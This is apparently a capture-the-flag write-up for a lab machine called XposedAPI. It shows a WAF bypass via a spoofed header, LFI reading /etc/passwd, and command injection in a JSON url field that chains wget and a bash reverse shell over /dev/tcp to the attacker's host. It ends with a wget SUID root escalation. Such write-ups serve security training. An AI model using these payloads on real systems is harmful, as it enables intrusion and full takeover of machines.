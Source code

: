# XposedAPI

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:46 +08
Nmap scan report for 192.168.183.134
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

This box likely has some API exploitation, so we can start proxying traffic through Burp.&#x20;

### API --> RCE

Port 13337 shows some basic documentation for an API:

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

The most interesting was the `/update` endpoint, which accepted a user-controlled URL and says it updates the application via a 'Linux Executable'. This might be vulnerable to RCE if we can chain commands to the end of the URL.&#x20;

But we didn't have a username yet. There's also a `/logs` endpoint:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Attempting to visit it results in a WAF blocking us:

```
$ curl http://192.168.183.134:13337/logs
WAF: Access Denied for this Host.
```

Since the application mentioned that this is meant to be open to `localhost` only, we can try appending the `X-Forwarded-For` header.&#x20;

```
$ curl http://192.168.183.134:13337/logs -H 'X-Forwarded-For: localhost'
Error! No file specified. Use file=/path/to/log/file to access log files.
```

This looks vulnerable to LFI, and it works!

{% code overflow="wrap" %}
```
$ curl http://192.168.183.134:13337/logs?file=/etc/passwd -H 'X-Forwarded-For: localhost
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```
{% endcode %}

There's a `clumsyadmin` user present, and this might be the user we need. Then, we can use the `/update` endpoint to send requests to our HTTP server:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Since our parameters was being passed to a 'Linux Executable', I assumed that the URL parameter was not being properly sanitised (and is probably using `wget` or something).&#x20;

To test, I sent this JSON data:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; wget 192.168.45.184/hiiamrce"}
```

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

This confirms we have RCE. We can get a reverse shell via this JSON object:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; bash -c 'bash -i >& /dev/tcp/192.168.45.184/21 0>&1'"}
```

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wget SUID Binary

I searched for SUID binaries on the machine, and found that `wget` was one of them:

```
clumsyadmin@xposedapi:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/bin/wget
<TRUNCATED>
```

Using this, we can get a `root` shell:

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>
